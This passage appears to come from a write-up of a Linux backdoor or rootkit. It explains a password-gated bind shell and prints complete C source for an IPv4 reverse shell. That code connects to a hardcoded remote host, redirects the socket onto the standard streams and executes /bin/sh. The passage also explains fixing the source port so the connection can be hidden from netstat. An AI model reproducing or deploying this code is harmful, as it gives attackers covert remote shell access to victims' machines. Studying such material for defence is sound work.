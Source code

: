 If `strcmp()` returns a `0`, indicating the arguments matched, the program issues an `execve()` call and pushes to the `/bin/sh` program to the connection giving the end user a command shell. 

If `strcmp()` returns a value other than `0`, indicating there was not a match between the arguments, the socket associated with the `accept()` syscall is shutdown, and the listening socket is closed. 

The `ipv6_rev()` function works very similarly except it has been programmed to deal strictly with IPv6 traffic. 

### `ipv4_rev()` Reverse Shell
Below is the code block defining our IPv4 reverse shell function:
```c
int ipv4_rev (void)
{
    const char* host = REM_HOST4;

    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(REM_PORT);
    inet_aton(host, &addr.sin_addr);

    struct sockaddr_in client;
    client.sin_family = AF_INET;
    client.sin_port = htons(LOC_PORT);
    client.sin_addr.s_addr = INADDR_ANY;

    int sockfd = socket(AF_INET, SOCK_STREAM, 0);

    bind(sockfd, (struct sockaddr*) &client, sizeof(client));

    connect(sockfd, (struct sockaddr*) &addr, sizeof(addr));

    for (int count = 0; count < 3; count++)
    {
        dup2(sockfd, count);
    }

    execve("/bin/sh", NULL, NULL);
    close(sockfd);

    return 0;
}
```

The `ipv4_rev()` function works very similarly to the bind shell we just explained; however, the remote host address and port have been hardcoded and defined by the `REM_HOST4` and `REM_PORT` definitions respectively. 

One other aspect of the reverse shell, is that we issue a `bind()` syscall with the following line: `bind(sockfd, (struct sockaddr*) &client, sizeof(client));`. `client` in this case is a reference to our `client` struct of type `sockaddr` which describes the victim host (the client in a reverse shell paradigm). This line of code helps us ensure that the outgoing reverse shell connection is coming from a specific source port (`LOC_PORT` or `65065`) on the victim which will come in handy later when we are hiding connections from `/bin/netstat` based on a port number. 
